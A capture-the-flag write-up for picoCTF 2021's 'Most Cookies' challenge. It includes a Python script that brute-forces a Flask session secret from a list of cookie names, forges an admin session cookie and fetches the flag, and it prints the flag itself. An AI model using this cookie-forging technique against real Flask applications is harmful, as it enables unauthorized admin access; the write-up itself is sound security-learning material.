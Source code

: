 # Decription
```
Alright, enough of using my own encryption. Flask session cookies should be plenty secure
```

We are given a python code of the site made with flask [server.py](https://github.com/ulissesj/CTFs/blob/main/picoCTF2021/most_cookies/server.py)

## Solution
We need to access /display by the GET method containing the admin cookie. I'm not familiar with flask, but after some research I found that flask cookies are encrypted in a specific way.
To find the secret key we need to get through the cookie_names, find the secret key and send it back with the admin field in "very_auth".
And here is my script

```
import manageFlaskSession
import requests
import re

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

r = requests.post("http://mercury.picoctf.net:18835/search", data={"name": "butter"})
server_cookie = r.cookies["session"]

for cookie in cookie_names:
    try:
        my_cookie = manageFlaskSession.decodeFlaskCookie(cookie, server_cookie)
        print(f"Found correct key: {cookie}, contents = {my_cookie}")
        new_cookie = manageFlaskSession.encodeFlaskCookie(cookie, {u'very_auth': 'admin'})
        print("Testing new cookie: {new_cookie}")
        r = requests.get("http://mercury.picoctf.net:18835/display", cookies={"session": new_cookie})
        if match := re.search(r"picoCTF{[^}]+}", r.text): #regex to find the flag in the source code
            print ("Flag: {match.group(0)}")
        break
    except Exception:
        pass

```

### picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

References:
[Flask sessions](https://pythonbasics.org/flask-sessions)
[Flask session cookie decoder/encoder](https://github.com/noraj/flask-session-cookie-manager)
[Useful John Hammond video](https://www.youtube.com/watch?v=kru8On32BqY)
